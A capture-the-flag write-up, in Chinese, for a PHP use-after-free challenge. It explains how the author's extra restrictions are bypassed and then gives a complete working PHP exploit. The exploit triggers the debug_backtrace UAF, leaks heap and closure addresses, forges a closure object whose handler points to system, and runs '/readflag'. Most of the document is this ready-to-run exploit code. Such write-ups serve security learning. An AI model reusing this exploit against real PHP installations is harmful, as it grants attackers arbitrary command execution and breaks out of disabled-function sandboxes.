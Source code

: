 [中文](./README_zh.md) [English](./README.md)

[docker](./PHP-UAF.tar.gz)

# Easy PHP UAF 题解

## 题解:
题目基于一个公开exp：https://github.com/mm0r1/exploits/blob/master/php7-backtrace-bypass/exploit.php ，它利用了debug_backtrace函数的bug来实现一个UAF漏洞。通过这个漏洞，我们可以读写PHP内存。

要解出这道题，需要一些PHP底层相关的知识和一点点Pwn相关的思想。

为了加大题目的难度，我加了一些料：

1. 在词法分析里面ban掉了循环结构
2. 在扩展里面限制了函数执行深度
3. 在php.ini里面ban掉了strlen，需要用别的方式泄露内存

如果用gdb调试并弄懂原本的exp的原理，这道题目其实非常简单：

1. UAF，可以直接用原exp里面的
2. 泄露下一个PHP堆块的头指针，用于计算$helper和$abc的存放地址
3. 泄露Closure Object的存放地址
4. 改写$helper->a，将它伪造成一个指向Closure Object的字符串
5. 从Closure Object里面泄露出Closure Handlers的地址，然后计算system的地址
6. 将需要用到的Closure Object数据复制到下一个PHP堆块上面，将它的internal_function.handler改写成system地址，然后改写$helper->b，让它指向这个假的Closure Object
7. 执行$helper->b来执行system


## Exp:
```php
pwn("/readflag");

function pwn($cmd) {
    global $abc, $helper, $backtrace;
    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this -> a);
            $backtrace = (new Exception) -> getTrace(); # ;)
            if(!isset($backtrace[1]['args'])) { # PHP >= 7.4
                $backtrace = debug_backtrace();
            }
        }
    }
    class Helper {
        public $a, $b, $c, $d;
    }
    function str2int($str) {
        $address = 0;
        $address |= ord($str[4]);
        $address <<= 8;
        $address |= ord($str[5]);
        $address <<= 8;
        $address |= ord($str[6]);
        $address <<= 8;
        $address |= ord($str[7]);
        return $address;
    }
    function leak($offset) {
        global $abc;
        return strrev(substr($abc, $offset, 8));
    }
    function leakA($offset) {
        global $helper;
        return strrev(substr($helper -> a, $offset, 8));
    }
    function write($offset, $data) {
        global $abc;
        $abc[$offset] = $data[7];
        $abc[$offset + 1] = $data[6];
        $abc[$offset + 2] = $data[5];
        $abc[$offset + 3] = $data[4];
        $abc[$offset + 4] = $data[3];
        $abc[$offset + 5] = $data[2];
        $abc[$offset + 6] = $data[1];
        $abc[$offset + 7] = $data[0];
    }
    function trigger_uaf($arg) {
        $arg = str_repeat('A', 79);
        $vuln = new Vuln();
        $vuln -> a = $arg;
    }
    # UAF
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
    $helper = new Helper;
    $helper -> b = function ($x) { };
    # leak head point of next php heap
    $php_heap = leak(0x88);
    echo "PHP Heap: " . bin2hex($php_heap) . "\n";
    $abc_address = str2int($php_heap) - 0x88 - 0xa0;
    echo '$abc: ' . dechex($abc_address) . "\n";
    $closure_object = leak(0x20);
    echo "Closure Object: " . bin2hex($closure_object) . "\n";
    # let a point to closure_object
    write(0x10, substr($php_heap, 0, 4) . hex2bin(dechex(str2int($closure_object) - 0x28)));
    write(0x18, str_pad("\x06", 8, "\x00", STR_PAD_LEFT));
    # leak Closure Handlers
    $closure_handlers = leakA(0x28);
    echo "Closure Handlers: " . bin2hex($closure_handlers) . "\n";
    # compute system address
    $system_address = dechex(str2int($closure_handlers) - 10733946);
    echo "System: " . $system_address . "\n";
    # build fake closure_object
    write(0x90, leakA(0x10));
    write(0x90 + 0x08, leakA(0x18));
    write(0x90 + 0x10, leakA(0x20));
    write(0x90 + 0x18, leakA(0x28));
    $abc[0x90 + 0x38] = "\x01";
    write(0x90 + 0x68, substr($php_heap, 0, 4) . hex2bin($system_address));
    # let b get this object
    write(0x20, substr($php_heap, 0, 4) . hex2bin(dechex(str2int($php_heap) + 0x08 - 0xa0)));
    # eval system
    ($helper -> b)($cmd);
    exit();
}
```

